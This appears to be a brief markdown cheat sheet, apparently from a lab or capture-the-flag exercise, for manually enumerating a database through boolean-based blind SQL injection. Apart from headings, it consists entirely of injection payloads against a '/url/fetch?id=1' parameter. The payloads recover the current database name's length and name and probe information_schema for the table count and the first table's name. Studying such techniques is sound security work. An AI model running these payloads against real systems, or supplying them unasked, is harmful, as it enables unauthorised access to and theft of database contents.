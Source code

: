 # Manual Enumeration
## Length of current DB name in use
`/url/fetch?id=1 AND LENGTH(database())=6`
## Name of DB
`/url/fetch?id=1 AND database() LIKE '______'`
## Tables count in db
` /url/fetch?id=1 AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())=2`
## Table1 name length
`/url/fetch?id=1 AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)=6`
## Query to get name
`GET /url/fetch?id=1 AND (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) LIKE '______'`
